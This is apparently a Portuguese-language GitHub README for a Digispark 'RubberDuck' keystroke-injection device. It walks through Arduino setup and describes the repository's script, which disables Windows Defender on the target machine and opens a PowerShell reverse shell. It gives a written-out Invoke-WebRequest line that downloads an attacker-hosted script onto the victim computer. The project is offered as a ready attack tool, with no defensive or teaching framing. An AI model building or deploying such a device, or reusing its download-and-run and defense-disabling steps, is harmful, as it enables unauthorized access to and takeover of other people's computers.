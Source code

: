 # RubberDuck_Digispark

### Onde comprar: 
#### "DigisPark"
    https://pt.aliexpress.com/item/2040316211.html?src=google&aff_fcid=9e866273062d4296861b47a9f964a842-1639422718025-06486-UneMJZVf&aff_fsk=UneMJZVf&aff_platform=aaf&sk=UneMJZVf&aff_trace_key=9e866273062d4296861b47a9f964a842-1639422718025-06486-UneMJZVf&terminal_id=8aa35bb270a04908bf8a5a0994450a81

### Configurar o RubberDuck:
Baixe a IDE do Arduino aqui:
    https://www.arduino.cc/en/software

Baixe e Instale os Drivers do Digispark aqui:
    https://github.com/digistump/DigistumpArduino/releases/download/1.6.7/Digistump.Drivers.zip

(role a pagina para baixo e baixe o Arduino Legacy IDE (1.8.X) (é uma versão com menos BUGs))

Após instalar e abrir o Arduino, aperte o Ctrl+Virgula que abrirá as preferencias. Após isso, na parte de "URLs Adicionais para Gerenciadores de Placas", você cole isso:
#### Url de Configuração do Digispark:
    https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
![alt text](<img/Screenshot_1.png>)


Após isso, faça esse caminho: Ferramenta > Placa > Gerenciador de Placas.
Será mostrado a tela de "Gerenciador de Placas". Dentro dessa tela, você irá pesquisar "DigisPark" e instalar a unica opção que aparece:
![alt text](<img/Screenshot_2.png>)


Após a instalação da placa, faça esse caminho e selecione ela para começar a codar:
![alt text](<img/Screenshot_3.png>)


Após tudo isso, sempre coloque esses dois include no começo do seu script
(sempre deixe o arquivo DigiKeyboardPtBr.h dentro da pasta do seu script):
![alt text](<img/Screenshot_4.png>)



### Baixe o DigiKeyboardPtBr aqui:
    https://github.com/cosmosredshiftsete/RubberDuck_Digispark/blob/main/DigiKeyboardPtBr.h
(caso você baixe o repositório, ele ja virá.)



### Sobre o Script:
Esse script do repositório faz o RubberDuck desativar o windows defender da maquina e executar uma Reverse Shell via Powershell.
Recomendo você seguir a mesma logíca do script do RubberDuck. Caso queira subir um script diferente na maquina, você deve subir um repositório no GitHub com seu script, colocar o link do seu repoitório na linha 49, que ele irá executar seu script baixando via powershell.
#### Exemplo:
          DigiKeyboardPtBr.println("Invoke-WebRequest -Uri 'link do seu repositório aqui' -OutFile 'nome_arquivo.aqui'");
        
